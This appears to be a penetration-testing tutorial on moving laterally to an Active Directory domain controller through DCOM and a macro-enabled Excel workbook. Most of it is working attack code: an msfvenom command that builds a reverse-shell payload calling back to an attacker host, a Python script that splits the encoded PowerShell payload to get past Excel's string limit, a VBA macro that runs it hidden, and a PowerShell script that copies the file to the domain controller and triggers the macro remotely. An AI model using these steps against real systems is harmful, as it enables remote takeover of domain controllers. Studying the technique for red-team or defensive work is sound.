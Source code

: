 ### Exploiting Active Directory using DCOM with Macro-Enabled MS Excel

This exploitation technique requires admin privilege on the compromised workstation. First we need to create an excel file with macro inside of it. The content of the macro can be a cmd process like below

```excel
Sub mymacro()
Shell ("cmd.exe")
End Sub
```

Or it can be a Metasploit payload that we can create as the following:

```bash
<root@kali:~$msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o macro.hta>
```

Next step is extracting a specific line that starts with powershell and ends with payload value. It looks like the following:

```
#"powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."
```

Then we need to create a python script to split the payload lines in order to bypass the size limit on literal strings imposed by excel. The python script

```python
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + ' " ' + str[i:i+n] + ' " '
```

Then we paste the results in the excel macro and it will look like the following:

```excel
Sub MyMacro()
Dim Str As String
Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
...
Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
Shell (Str)
End Sub
```

We save the excel file and prepare to transfer it over to the domain controller. Then use the following powershell script to execute the attack while modifying the parameters according to your environment:

```excel
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192
.168.1.110"))
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("mymacro")
```
